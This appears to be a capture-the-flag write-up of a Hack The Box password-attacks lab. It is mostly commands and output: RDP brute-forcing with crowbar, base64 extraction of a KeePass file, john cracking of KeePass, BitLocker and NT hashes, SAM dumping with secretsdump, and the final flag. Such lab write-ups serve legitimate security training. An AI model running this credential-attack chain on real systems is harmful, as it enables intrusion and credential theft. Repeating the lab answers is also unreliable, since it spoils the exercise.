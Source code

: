 # Password Attacks Lab - Hard

The next host is a Windows-based client. As with the previous assessments, our client would like to make sure that an attacker cannot gain access to any sensitive files in the event of a successful attack. While our colleagues were busy with other hosts on the network, we found out that the user `Johanna` is present on many hosts. However, we have not yet been able to determine the exact purpose or reason for this.

## Walkthrough

```bash
nmap -A -T4 10.129.202.222
PORT     STATE SERVICE       VERSION
111/tcp  open  rpcbind?
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

we found out that the user `Johanna` is present on many hosts.

<pre class="language-bash"><code class="lang-bash"><strong>#we use crowbar because it seems faster than hydra for rdp
</strong><strong>crowbar -b rdp -s 10.129.202.222/32 -u johanna -C mut_password.list
</strong>2024-02-22 03:16:00 RDP-SUCCESS : 10.129.202.222:3389 - johanna:1231234!
#that took 15min XD
#quick check the smb share with johanna creds
smbclient -L //10.129.202.222 -U johanna%1231234!
#        Sharename       Type      Comment
#        ---------       ----      -------
#        ADMIN$          Disk      Remote Admin
#        C$              Disk      Default share
#        david           Disk      
#        IPC$            IPC       Remote IPC
smbclient //10.129.202.222/david -U johanna%1231234!
ls
NT_STATUS_ACCESS_DENIED listing \*
#unluck
</code></pre>

now lets rdp with johanna creds

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">xfreerdp /v:10.129.202.222 /u:johanna /p:'1231234!' /cert-ignore /dynamic-resolution
#we found C:\Users\johanna\Documents\Logins.kdbx
<strong>#lets tranfer it, first i try the classic impacket-smbserver but its not allowed
</strong><strong>#so we try to transfer via base64
</strong>#on powershell
[Convert]::ToBase64String((Get-Content -path "C:\Users\johanna\Documents\Logins.kdbx" -Encoding byte))
HASH
#on kali
echo 'HASH' | base64 -d > hosts
</code></pre>

now lets crack it using john

```bash
keepass2john Logins.kdbx > Logins.hash
john --wordlist=mut_password.list Logins.hash 
#Qwerty7!         (Logins)     
```

lets check it now

```bash
#after login we get david:gRzX7YbeTcDG7
smbclient -L //10.129.202.222 -U david%gRzX7YbeTcDG7
#        david           Disk    
#add -t 3600 (timeout) because the file transfered is huge
smbclient -t 3600 //10.129.202.222/david -U david%gRzX7YbeTcDG7 
smb: \> ls
#  .                                   D        0  Fri Feb 11 05:43:03 2022
#  ..                                  D        0  Fri Feb 11 05:43:03 2022
#  Backup.vhd                          A 136315392  Fri Feb 11 07:16:12 2022
get Backup.vhd
getting file \Backup.vhd of size 136315392 as Backup.vhd (120.2 KiloBytes/sec) (average 120.2 KiloBytes/sec)
#this takes me forever man, hope future me find a faster way to do this
```

now to do with this file

```bash
#https://medium.com/@kartik.sharma522/mounting-bit-locker-encrypted-vhd-files-in-linux-4b3f543251f0
sudo modprobe nbd
sudo qemu-nbd -c /dev/nbd0 -f vpc Backup.vhd
sudo cryptsetup bitlkOpen /dev/nbd0p2 PasswordHard
Enter passphrase for /dev/nbd0p2: 
#we dont know, so lets use john to crack the passphrase
sudo bitlocker2john -i /dev/nbd0 > Backup.hash
john --wordlist=mut_password.list Backup.hash
#123456789!       (?)     
#123456789!       (?) 
sudo cryptsetup bitlkOpen /dev/nbd0p2 PasswordHard
Enter passphrase for /dev/nbd0p2:123456789!
sudo mkdir /mnt/hardlab 
sudo mount /dev/mapper/PasswordHard /mnt/hardlab
```

now lets check inside

```bash
cd /mnt/hardlab
ls
#'$RECYCLE.BIN'   SAM   SYSTEM  'System Volume Information'
#use secretsdump to dump the hashes
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Target system bootKey: 0x62649a98dea282e3c3df04cc5fe4c130
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e53d4d912d96874e83429886c7bf22a1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9e73cc8353847cfce7b5f88061103b43:::
sshd:1000:aad3b435b51404eeaad3b435b51404ee:6ba6aae01bae3868d8bf31421d586153:::
david:1009:aad3b435b51404eeaad3b435b51404ee:b20d19ca5d5504a0c9ff7666fbe3ada5:::
johanna:1010:aad3b435b51404eeaad3b435b51404ee:0b8df7c13384227c017efc6db3913374:::
```

lets crack it with john

```bash
vim sam.hash
john --format=nt --wordlist=mut_password.list sam.hash 
#                 (Guest)     
#1231234!         (johanna)     
#Liverp00l8!      (Administrator)    
```

lets rdp as administrator

```bash
xfreerdp /v:10.129.202.222 /u:Administrator /p:'Liverp00l8!' /cert-ignore /dynamic-resolution
HTB{PWcr4ck1ngokokok}
```

To close the BitLocker partition properly we need to first `umount` then use `cryptsetup bitlkClose` for closing the partition

```bash
sudo umount /mnt/hardlab
sudo cryptsetup bitlkClose PasswordHard                                         
```
